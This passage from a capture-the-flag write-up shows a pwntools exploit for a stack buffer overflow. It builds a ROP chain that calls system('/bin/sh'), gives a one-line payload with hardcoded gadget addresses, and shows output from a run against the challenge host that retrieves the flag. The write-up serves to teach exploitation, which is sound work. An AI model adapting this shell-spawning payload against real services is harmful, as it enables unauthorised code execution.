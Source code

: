 ```python
    rop_chain = flat([
        ret_gadget,    # Stack alignment
        pop_rdi,       # pop rdi; ret
        binsh,         # "/bin/sh" -> rdi
        system_addr    # system("/bin/sh")
    ])
    
    payload = b'A' * 72 + rop_chain
    
    io.sendline(payload)
    sleep(1)
    
    # Get flag
    io.sendline(b'cat flag*')
    flag = io.recvline()
    print(f"FLAG: {flag.decode().strip()}")

if __name__ == '__main__':
    context.binary = BINARY
    exploit()
```

### Alternative Approach: Direct System Call

Instead of using the `escape_pod` function, we can build a direct ROP chain to `system("/bin/sh")`:

**Required Addresses:**
- `system()`: `0x4050c0`
- `"/bin/sh"`: `0x496030` 
- `pop rdi; ret`: `0x402671`
- `ret` (alignment): `0x40199b`

**Working Payload:**
```python
payload = b'A' * 72 + p64(0x40199b) + p64(0x402671) + p64(0x496030) + p64(0x4050c0)
```

## Execution and Flag

```bash
$ python3 exploit.py
[+] Opening connection to 145.79.11.93 on port 1337: Done
Response to 'cat flag*':
CYNX{n1c3_b0f_w4rMuP}
[+] FOUND FLAG: CYNX{n1c3_b0f_w4rMuP}
```

## Key Takeaways

### Technical Lessons

1. **Stack Canary Analysis**: Global protections don't guarantee per-function protection - always verify individual functions
2. **Stack Alignment**: Modern x86_64 requires 16-byte alignment before function calls - use `ret` gadgets for alignment
3. **Static Linking Benefits**: Statically linked binaries provide abundant ROP gadgets and predictable addresses
4. **Win Functions**: Always search for existing functions that provide desired functionality before building complex ROP chains
